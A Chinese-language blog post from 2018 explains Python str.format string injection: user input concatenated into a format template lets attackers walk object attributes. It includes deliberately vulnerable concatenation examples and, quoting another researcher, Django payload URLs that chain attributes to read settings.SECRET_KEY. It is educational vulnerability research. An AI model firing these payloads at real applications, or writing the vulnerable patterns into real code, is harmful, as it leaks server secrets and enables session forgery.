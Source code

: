 Title:python格式化字符串漏洞实践
Date: 2018-01-22 10:20
Category: 漏洞实践
Tags: 漏洞实践,Python,格式化字符串漏洞
Slug: 
Authors: bit4
Summary: 

### 0x0、核心问题

如下面这个例子，从python2.6开始，就有了用format来格式化字符串的新特性，它可以通过{}来确定出字符串格式的位置和关键字参数，并且随时可以显式对数据项重新排序。此外，它甚至可以访问对象的属性和数据项——这是导致这里的安全问题的根本原因。

影响范围：Python 2.6及以后

```python
>>> print 'class of {0} is {0.__class__}'.format(42+1)
class of 43 is <type 'int'>
#可以看到，0.__class__获取到了输入对象（43）的类（int）。漏洞是建立在这个特性的基础之上的。
```

### 0x1、漏洞的必要条件

漏洞存在的必要条件是：可以控制字符串（一般是字符串拼接了用户的输入）

![insert_point](img/format_string_vuln/insert_point.png)

当然，要能正确利用，还需要保证控制的字符串语法的正确，即注入的对象名称必须和format参数传入的对象名称完全匹配。比如下面的例子：由于format传入的是"user=xxxx "，注入的字符串中，就必须是user.xxxx。

![对象正确](img/format_string_vuln/对象正确.png)



**实际代码中可能的字符串拼接方式有哪些呢？**

我能想到的：多次format  、利用加号的字符串拼接、利用%s的字符串拼接

```python
#多次format：  比如2次的情况，如果第一次被控制，将发生该漏洞
template = 'Hello {user}'
template = template.format(user ="{user.__class__}")#用户注入发生在这里
print template
print template.format(user="bit4")
```

![多次format](img/format_string_vuln/多次format.png)



```python
#用加号的字符串拼接
email = "{user.__class__}" #用户注入的内容
template = 'Hello {user}, This is your email: ' + email
print template
print template.format(user="bit4")
```

![+字符串拼接](img/format_string_vuln/+字符串拼接.png)



```python
#利用%s的字符串拼接
email = "{user.__class__}" #用户注入的内容
template = 'Hello {user}, This is your email: %s' %email
print template
print template.format(user="bit4")
```

![%s字符串拼接](img/format_string_vuln/%s字符串拼接.png)



### 0x2、黑盒的思路

如果能看到代码，知道语句是怎么写的，当然容易构造出payload来注入到格式化字符串中，那么黑盒的时候，怎么办呢？phithon的文章中，给出了django中的一个例子。

```python
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))

然后给出的payload如下：
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}

{user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.__groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

关于在黑盒的时候，如何成功挖掘该类漏洞，有几个关键问题：

Q：如何识别注入点？

A：如果识别不了，那就遍历所有可能的参数请求，



Q：如何找到一个可用的当前对象？

A：这一块好像没有很好的自动化方法，只有通过web的具体功能来猜测判断，比如，如果当前页面是用户登录后的欢迎页面，那么它很可能包含用户user对象，如果是展示展示一列订单，那么它很可能包含order对象.....等等



Q：是否存在一个通用对象呢？也就是每个请求中必然包含的对象是什么？或者一些框架或者web中常用的对象？

A：request对象应该算一个，但是实际的编程中几乎不会直接使用request对象。

​	至于有什么常用对象，目前回答不了...



Q：如何找到对象的可用属性？如何找到某个对象到系统敏感信息的对象属性链呢？

A：dir()函数可以查看某个对象的可用属性。

​	关于属性链，具体怎么查找还不清楚，但大致方向是，先通过当前属性，到达model等访问更广的全局属性（对象），从而再获取具体的属性。



参考：

https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html

http://lucumr.pocoo.org/2016/12/29/careful-with-str-format/